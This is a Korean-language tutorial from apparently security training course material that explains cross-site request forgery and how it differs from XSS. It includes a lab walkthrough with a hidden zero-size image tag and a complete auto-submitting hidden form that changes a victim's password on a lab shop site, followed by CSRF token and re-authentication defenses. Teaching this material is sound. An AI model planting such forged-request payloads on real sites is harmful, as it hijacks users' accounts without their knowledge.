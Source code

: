 ```yaml
---
layout: post
title: CSRF
subtitle: Cross Site Request Forgery
categories: Vulnerability
tags: [Web, Injection, Pentest]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 정의

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179171240-596ab43c-2010-4802-8dd4-629fa67356e0.png">
</p>

크로스 사이트 요청 위조(Cross Site Request Forgery, CSRF)는 서버가 실제 서비스 페이지를 통한 정상요청인지 확인하지 않고 처리하는 경우 악의적인 스크립트를 이용하여 다른 사용자의 권한으로 중요기능 실행, 패스워드 변경 등의 공격을 할 수 있는 취약점이다.

즉, 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격을 말한다.

* CSRF 공격는 **서버**대상으로 이루어진다.

## XSS와 CSRF의 차이점

* **XSS**는 공격대상이 **클라이언트**이고, 스크립트 실행이 목적이다. 인증된 세션 없이 공격이 가능하다.

* **CSRF**는 공격대상이 **서버**고, 특정 행위(패스워드 변경)가 목적이 된다. 반드시 인증된 사용자를 공격하므로, 인증된 세션이 필요하다는 차이가 있다.

## 실습

### 0. 실습 원리

가로 세로 크기가 1 또는 0인 **img 태그**를 삽입하면 사용자는 해당 이미지가 있는지 알 수가 없다.

HTML 문서를 먼저 주고받은 후에 사용자 측 브라우저에서 HTML 문서를 파싱하다가 **img 태그**를 화면에 출력하기 위해 **src 속성**의 공격자가 의도한 URL 요청을 보내는 원리이다.

### 1. GET 방식

게시물 이동 간에 GET 방식을 이용하여 이동하는 요청이 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179174494-dca955e1-775a-447d-9940-ad60efe866d1.png" width = 380>
</p>

* 우리는 게시물에 스크립트를 작성하여 요청을 위조할 것이다.

```html
<img src = "요청을 위조하고자 하는 사이트" width = "1" height = "1" />
```

위 내용을 게시물에 올리고 해당 게시물을 클릭하면 원래의 게시물이 보이는게 아닌 요청을 위조하고자 하는 사이트로 이동하게 될 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179178908-61733b87-f683-4da0-bbab-efbd0fcf226e.png" width = 380>
</p>

* 이것은 게시물을 클릭하고 Burp Suite로 캡쳐한 것이다.
* 게시물에 해당 요청이 아닌 **GET 위조하고자 한 사이트**로 변경 된 것을 알 수 있다.

### 2. POST 방식

이번에는 게시물 클릭 이후 자동으로 공격자가 원하는 패스워드를 변경하는 방식으로 실습을 해볼 것이다.

패스워드 변경할 때 어떤 방식의 패킷이 움직이는 지 볼 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179179788-c52c9684-85eb-4c90-b759-91455772f9ec.png" width = 380>
</p>

* POST 방식의 페이지 요청 값과, 파라미터가 어떻게 이루어지는지 알 수 있다.

```html
<iframe name="ifr"></iframe>
<form target="ifr" name = "frm" method="post"
action="http://10.200.165.9/demoshop/account/profile_edit_ok.asp">
    <input type="hidden" name="user_id" value="test">
    <input type="hidden" name="passwd" value="aa1122">
    <input type="hidden" name="passwd_q" value="%C1%C1%BE%C6%C7%CF%B4%C2+%BB%F6%B1%F2%C0%BA%3F">
    <input type="hidden" name="passwd_a" value="1">
    <input type="hidden" name="Name" value="%C3%BB%C3%BB%C3%BB">
    <input type="hidden" name="birth_yy" value="1911">
    <input type="hidden" name="birth_mm" value="11">
    <input type="hidden" name="birth_dd" value="11">
    <input type="hidden" name="birth_gbn" value="1">
    <input type="hidden" name="ismarry" value="1">
    <input type="hidden" name="address" value="%5B520-150%5D%26%23160%3B%C0%FC%B3%B2%26%23160%3B%B3%AA%C1%D6%BD%C3%26%23160%3B%C3%BB%B5%BF%26%23160%3B+111">
    <input type="hidden" name="tel1_2" value="1111">
    <input type="hidden" name="tel1_3" value="1111">
    <input type="hidden" name="whereTel1" value="1">
    <input type="hidden" name="hp1" value="">
    <input type="hidden" name="hp2" value="">
    <input type="hidden" name="hp3" value="">
    <input type="hidden" name="job" value="%B0%F8%B9%AB%BF%F8">
    <input type="hidden" name="email" value="1111%40naver.com">
    <input type="submit">
</form>
<script>
    document.frm.submit();
</script>
```

* 모든 매개변수와 공격자가 원하는 정보를 수정해서 해당 스크립트를 저장해두면 해당 게시물을 클릭했을 때, 사용자가 원하는 요청을 위조하여 패스워드가 변경되는 것이다.

## 보안 대책

1. 사용자가 요청한 내용이 위조된 요청인지 여부를 사용자 접근권한 정보가 포함된 토큰을 이용하여 세션정보에 포함된 토큰값과 요청에 포함된 토큰값의 비교를 통해 확인한다.
 
2. CAPCHA를 이용하여 추가적인 인증을 한다.
 
3. 사용자의 회원탈퇴, 정보수정에 비밀번호를 한번 더 요청한다.
